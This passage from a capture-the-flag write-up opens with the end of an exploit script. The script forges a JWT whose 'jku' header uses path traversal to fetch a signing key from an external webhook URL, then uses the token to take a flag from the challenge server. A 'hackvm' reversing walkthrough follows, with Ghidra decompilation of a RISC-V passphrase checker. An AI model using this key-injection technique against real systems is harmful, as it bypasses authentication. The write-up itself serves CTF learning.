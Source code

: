 ```python
            "jku": "http://127.0.0.1:4000/.well-known/jwks.json/../../load/https%3A%2F%2Fwebhook.site%2Ff4818a3c-04b0-43f1-9605-08c08028711a",
            "kid": "enQAZcxKt8lUSgIU2yfcCFVWgpONCwoq7ePsqYgfh7Y"
        }
    )

r = get("https://hackscope.hackxgpt.com/answers", headers = {"Authorization": "Bearer " + jwt})
print(r.json()["flag"])
```

## hackvm

**_Written by <a target="_blank" href="https://github.com/kosinw">kosinw</a>_**

> Prompt: As nature's engineers, beavers love all things (reverse) engineering, including reduced instruction set computers! Now the beavers by your local dam are excited to show you their new RISC virtual machine & reversing challenge!

We're given a tar file with two binaries, a 32-bit RISCV executable `puzzle1`, and a x86 binary `vm` to execute the RISCV program. Executing the program with `./vm puzzle1`, we're asked to input a passphrase.

```bash
> ./vm puzzle1

          .="   "=._.---.
        ."         c ' Y'`p                 welcome to the BEAVER
       /   ,       `.  w_/             reduced instruction set computer
   jgs |   '-.   /     /
 _,..._|      )_-\ \_=.
`-....-'`------)))`=-'"`'"

[*] remember to submit the flag, not the passphrase on the command center!
[*] please enter the passphrase: hello
[!] sorry, login failed!
```

Let's decompile `puzzle1` in Ghidra to get a better idea of what's going on:

```c
undefined4 main(void)
{
  size_t sVar1;
  int iVar2;
  undefined4 uVar3;
  char acStack_91 [137];

  // ... //

  printf("[\x1b[32m*\x1b[0m] please enter the passphrase: ");
  gets(acStack_91 + 1);
  sVar1 = strlen(acStack_91 + 1);
  acStack_91[sVar1] = '\0';
  sVar1 = strlen(acStack_91 + 1);
  if ((sVar1 == 0x2f) && (iVar2 = memcmp(acStack_91 + 1,password,0x2f), iVar2 == 0)) {
    win(acStack_91 + 1);
    return 0;
  }
  uVar3 = lose();
  ecall();
  return uVar3;
}
```
